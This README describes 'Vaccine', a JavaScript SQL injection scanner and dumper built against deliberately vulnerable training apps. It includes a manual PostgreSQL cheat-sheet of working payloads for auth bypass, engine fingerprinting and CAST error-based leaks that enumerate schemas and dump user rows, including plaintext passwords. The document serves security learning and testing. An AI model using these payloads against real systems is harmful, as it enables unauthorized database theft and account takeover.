

# Vaccine

SQL injection detection & exploitation tool. Given a URL with a query parameter,
it confirms the parameter is injectable, fingerprints the database engine, then
enumerates and dumps the backend. Written in JavaScript.

Test targets:
- PostgreSQL: [VWAD entry](https://vwad.owasp.org/app/vulnbank/) · [vulnbank](https://vulnbank.org/) · [repo](https://github.com/Commando-X/vuln-bank)
- MySQL: [VWAD entry](https://vwad.owasp.org/app/secdevlabs/) · [repo](https://github.com/globocom/secDevLabs/tree/master/owasp-top10-2021-apps/a3/copy-n-paste)


## Usage

```
node src/vaccine [-X GET|POST] [-o FILE] URL
```

| Option | Meaning | Default |
| --- | --- | --- |
| `-X` / `-x` | HTTP method (`GET` or `POST`) | `GET` |
| `-o` / `-O` | SQLite output file (created if missing) | `vaccine.sqlite` |
| `URL` | Target URL **with at least one query parameter** | — |

The **first** query parameter is the one attacked. For `POST`, the query
parameters are serialized into a JSON request body.

```bash
npm run vaccine -- -X POST "http://localhost:5000/login?username=test&password=test"
```

### Spinning up the PostgreSQL target (vuln-bank)
Install Vuln-bank:
```bash
./test_env.sh
```

A `Makefile` wraps the bundled `vuln-bank` docker-compose stack:

```bash
make up        # start (http://localhost:5000)
make rebuild   # build + start
make down      # stop
make clean     # stop + wipe volumes
make re        # clean + rebuild
```

## How it works

1. **Injectable detection** (`injectable.js`) — sends paired probes and compares
   responses to find the escape context: single quote `'`, double quote `"`, or
   numeric (no quote). A truthy payload must look like the original response
   while a falsy one must differ.
2. **Fingerprint** (`fingerprint.js`) — boolean-based. Injects an engine-unique
   expression (e.g. `version() LIKE 'PostgreSQL%'`) and checks whether the page
   matches the known-true page. Detects MySQL, PostgreSQL, Oracle, SQLite, MSSQL.
3. **Enumeration & dump** (`suitePostgresql.js`) — error-based. Casts leaked text
   to `int` so PostgreSQL echoes the value inside its error message, walking:
   database name → tables → columns → row-by-row dump.

Every confirmed finding (parameter, payload, technique) plus the recovered
schema and dumped rows is persisted to the SQLite store.

## Manual injection cheat-sheet POSTGRESQL (Vuln-bank)

### Boolean — confirm injection / auth bypass
First start with classic `'` test

```
test'
```
→ If the error is different then `'` was injected into the query.

Then we can try:

```
test' OR 1=1-- 42
```
→ Query becomes always-true

```
test' AND 1=2-- 42
```
→ Always-false. The true/false split is what confirms injectability.

### Boolean — engine fingerprint
We first run a true page like `test' OR 1=1-- 42` to get the baseline

```
test' OR version() LIKE 'PostgreSQL%'-- 42
```
→ If the above is evaluated to true, it will behaves like the true page ⇒ engine is PostgreSQL.

### Error-based — leak scalar values
We use error based CAST to force an error (here we attempt to cast a string to an int).

```python
# Get version
test' AND 1=CAST(version() AS int)-- 42
```
→ `invalid input syntax for type integer: "PostgreSQL 13.23 (Debian 13.23-1.pgdg13+1) on x86_64-pc-linux-gnu, ..."`

```python
# Get database name
test' AND 1=CAST(current_database() AS int)-- 42
```
→ `invalid input syntax for type integer: "vulnerable_bank"`

### Error-based — enumerate schema

List tables in the `public` schema:
```python
# Get tables
test' AND 1=CAST((SELECT string_agg(table_name,',') FROM information_schema.tables WHERE table_schema='public') AS int)-- 42
```
→ `... : "users,loans,transactions,virtual_cards,card_transactions,merchants,merchant_payments,bill_categories,billers,bill_payments"`

List columns of a table (here `users`):
```python
# Get columns per table
test' AND 1=CAST((SELECT string_agg(column_name,',') FROM information_schema.columns WHERE table_name='users') AS int)-- 42
```
→ `... : "id,username,password,account_number,balance,is_admin,profile_picture,reset_pin,bio,is_suspended"`

### Error-based — dump rows

One row at a time via `LIMIT 1 OFFSET N`, columns joined with the `~|~`
separator the tool parses. Dump row `0` of `users` (plaintext passwords):
```python
# Get row per table
test' AND 1=CAST((SELECT COALESCE(CAST("id" AS text),'NULL')||'~|~'||COALESCE(CAST("username" AS text),'NULL')||'~|~'||COALESCE(CAST("password" AS text),'NULL')||'~|~'||COALESCE(CAST("account_number" AS text),'NULL')||'~|~'||COALESCE(CAST("balance" AS text),'NULL')||'~|~'||COALESCE(CAST("is_admin" AS text),'NULL') FROM users ORDER BY 1 LIMIT 1 OFFSET 0) AS int)-- 42
```
→ `... : "1~|~admin~|~admin123~|~ADMIN001~|~1000000.00~|~true"` (plaintext password leaked)

Dump row `33` of `billers` (increment `OFFSET` to walk the table):
```
test' AND 1=CAST((SELECT COALESCE(CAST("id" AS text),'NULL')||'~|~'||COALESCE(CAST("category_id" AS text),'NULL')||'~|~'||COALESCE(CAST("name" AS text),'NULL')||'~|~'||COALESCE(CAST("account_number" AS text),'NULL')||'~|~'||COALESCE(CAST("description" AS text),'NULL')||'~|~'||COALESCE(CAST("minimum_amount" AS text),'NULL')||'~|~'||COALESCE(CAST("maximum_amount" AS text),'NULL')||'~|~'||COALESCE(CAST("is_active" AS text),'NULL') FROM billers ORDER BY 1 LIMIT 1 OFFSET 33) AS int)-- 42
```
→ `... : "40~|~2~|~CableTV Plus~|~CABLE001~|~Cable TV Services~|~30.00~|~NULL~|~true"`

## Database schema

Results are persisted to a SQLite file (`vaccine.sqlite` by default). A scan owns
its vulnerabilities and the enumerated backend schema (databases → tables →
columns → dumped rows).



`ROW_DUMP.data` holds one dumped record per row as a JSON object
(`{"id":"1","username":"admin",...}`).

## Project layout

| File | Role |
| --- | --- |
| `src/vaccine.js` | Entry point — orchestrates the pipeline |
| `src/setting.js` | Argument / URL parsing, `Setting` object |
| `src/injectable.js` | Injectability detection + escape context |
| `src/fingerprint.js` | Boolean-based engine fingerprint |
| `src/suitePostgresql.js` | PostgreSQL error-based enumeration & dump |
| `src/suiteSqlite.js` | SQLite suite (stub) |
| `src/http.js` | GET/POST request helper |
| `src/database.js` | SQLite persistence layer |
| `src/helper.js` | Query mutation, response comparison, cleanup |
| `src/logger.js` | Colored console output |

## Resources
- [Detect database fingerprint](https://www.sqlinjection.net/database-fingerprinting/)
- [PostgreSQL injection payloads](https://swisskyrepo.github.io/PayloadsAllTheThings/SQL%20Injection/PostgreSQL%20Injection/)
- [Juice Shop companion guide](https://pwning.owasp-juice.shop/companion-guide/latest/)
